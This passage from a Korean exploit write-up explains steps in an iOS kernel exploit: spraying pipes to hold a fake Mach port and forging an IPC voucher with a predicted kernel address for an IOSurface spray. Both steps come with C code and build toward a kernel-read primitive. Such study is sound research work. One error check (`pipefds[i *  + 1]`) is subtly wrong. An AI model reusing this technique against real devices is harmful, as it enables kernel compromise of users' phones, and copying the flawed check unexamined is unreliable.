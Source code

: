 여기까지 오면 상황이 좋아 보인다. 
우리의 포트가 실제로 유효하다면, 이 시점부터는 100% 성공 확률을 가질 것이며, 위험한 부분은 끝났다.

## 2. kread primitive 구축 준비하기

### fakeport + faketask 파이프 스프레이

 먼저 `pipe` 함수를 사용해 프로세스 간 통신용 파이프 핸들 쌍(`fds`)을 할당하기 위해, 0x500개의 파이프를 생성한다. 이는 fake port를 쓰기 위함이다.

```c
    // pipe preparation
    void *pipebuf = malloc(pagesize);
    bzero(pipebuf, pagesize);

    int *pipefds = NULL;
    int total_pipes = 0x500;
    size_t total_pipes_size = total_pipes * 2 * sizeof(int);
    pipefds = malloc(total_pipes_size);
    bzero(pipefds, total_pipes_size);
    for (size_t i = 0; i < total_pipes; i++) 
    {
        /* 
            we arrange our pipes in pairs  
            where pipe N is a read pipe, and 
            pipe N+1 is the corresponding write pipe
        */
        pipefds[i * 2] = -1;
        pipefds[i * 2 + 1] = -1;
        
        int error = pipe(&pipefds[i * 2]);
        if (error != 0 ||
            pipefds[i * 2] < 0 ||
            pipefds[i *  + 1] < 0)
        {
            close(pipefds[i * 2]);
            close(pipefds[i * 2 + 1]);

            total_pipes = i;
            break;   
        }

        set_nonblock(pipefds[i * 2 + 1]);
    }
    INFO("total pipes created: %d\n",total_pipes);
    //
```

이후 IOSurface 스프레이를 통해 뿌릴 fake voucher를 생성한다. iv_refs는 200이며, iv_port 필드는 **예측되는** 파이프에 써둔 포트 커널주소를 의미하는데, 환경마다 곱해지는 수가 달라질 수 있다. 원본 익스플로잇 코드에서는 32(=0x20)으로 되어있었지만, 내 환경에서는 더 멀리 떨어져있었기에 0x140을 곱해주어야 했다.

```c
    mach_port_t the_one = real_port_to_fake_voucher;
    uint64_t original_port_addr = target_voucher->iv_port;

    fake_ipc_voucher_t new_voucher = (fake_ipc_voucher_t)
    {
        .iv_refs = 200,
        .iv_port = (original_port_addr & ~(pagesize - 1)) + (pagesize * 0x140),
    };
    INFO("new port addr: 0x%llx\n", new_voucher.iv_port);
```
